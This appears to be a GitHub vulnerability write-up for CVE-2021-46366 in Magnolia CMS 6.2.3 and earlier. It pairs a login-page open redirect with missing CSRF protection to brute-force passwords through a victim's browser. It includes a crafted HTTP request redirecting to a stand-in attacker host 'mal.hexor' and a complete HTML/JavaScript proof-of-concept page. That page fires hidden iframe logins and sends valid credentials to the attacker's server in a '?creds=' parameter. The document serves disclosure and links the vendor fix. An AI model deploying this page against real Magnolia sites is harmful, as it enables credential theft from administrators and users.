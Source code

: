 # CVE-2021-46366: Credential Bruteforce Attack via CSRF + Open Redirect in Magnolia CMS

In Magnolia (versions <=6.2.3) by combining a "Open Redirect" vulnerability with a "Cross-Site Request Forgery" (CSRF) vulnerability, an attacker may use a victim, with access to the Magnolia Login page, to bruteforce potential user-password combinations and exfiltrate any valid credentials back to the attacker.
<br/>
This attack can be used to hide the attacker's source IP from the Magnolia server or bypass IP restrictions that may be in place.
<br/>

### Vendor Disclosure:

The vendor's disclosure and fix for this vulnerability can be found [here](https://docs.magnolia-cms.com/product-docs/6.2/Releases/Release-notes-for-Magnolia-CMS-6.2.4.html#_security_advisory).

### Requirements:

This vulnerability requires:
<br/>
- User Interaction

### Proof Of Concept:

#### Open Redirect

The login page is vulnerable to a "Open Redirect" vulnerability via the "mgnlReturnTo" get parameter. The redirect only occurs on a successful login.

Example HTTP Request:
```
POST /magnoliaPublic/.magnolia/admincentral?mgnlReturnTo=http%3A%2F%2Fmal.hexor%2F HTTP/1.1
Host: 192.168.243.180:8080
Content-Type: application/x-www-form-urlencoded
Content-Length: 49

mgnlUserId=superuser&mgnlUserPSWD=superuser&csrf=
```

Open Redirect HTTP Response:
```
HTTP/1.1 302 
Set-Cookie: JSESSIONID=4583E475B83C6B5C21DF44572CABE1F1; Path=/magnoliaPublic; HttpOnly; SameSite=Strict
X-Magnolia-Registration: Registered-demo
Location: http://mal.hexor/
Content-Length: 0
Date: Wed, 28 Oct 2020 22:50:22 GMT
```

#### Combining Open Redirect with CSRF to Exfiltrate Valid Credentials

We create the following HTML page that leverages the "Open Redirect" and the "Lack of CSRF Protection" of the Login Page in order to bruteforce a set of credentials:
```
<html>
  <body>

    <form id="malForm" target="" method="POST">
      <input type="hidden" id="user" name="mgnlUserId" value="" />
      <input type="hidden" id="pass" name="mgnlUserPSWD" value="" />
      <input type="hidden" name="csrf" value="" />
    </form>

<script>
var user = "superuser";
var pass = ["test1", "test2", "superuser"];

for (i = 0; i < pass.length; i++) {
	var iframe = document.createElement('iframe');
	iframe.style.display = "none";
	iframe.name = pass[i];
	document.body.appendChild(iframe);


	var action = "http://192.168.243.180:8080/magnoliaPublic/.magnolia/admincentral?mgnlReturnTo=" + encodeURI(document.location.origin + "?creds=" + user +  ":" + pass[i]);
	document.getElementById("malForm").action = action; 
	document.getElementById("malForm").target = pass[i]; 
	console.log(pass[i]);
	document.getElementById("user").value = user;
	document.getElementById("pass").value = pass[i];
	document.getElementById("malForm").submit();
}
</script>

  </body>
</html>
```

<strong>Note:</strong> The HTML file can be found [here](Payloads/brute_csrf_iframe.html) for easy download.
<br/>

We host the malicious HTML via a python webserver at address "localhost:8000/brute_csrf_iframe.html". When accessed the JavaScript in the page will be triggered resulting in multiple iframes which will be used to perform the password bruteforce:

<img src="Images/access_csrf_page.png"/>

Because the "Open Redirect" is followed only when a valid set of credentials is entered, we can remotely exfiltrate these valid credentials by including them as GET parameters in the URL which will be followed by the "Open Redirect".
<br/>

So, although we try multiple credentials, only "superuser:superuser" will trigger the redirect and the attacker server will log them via the GET parameter "?creds=".

<img src="Images/exfiltrated_credentials.png"/>
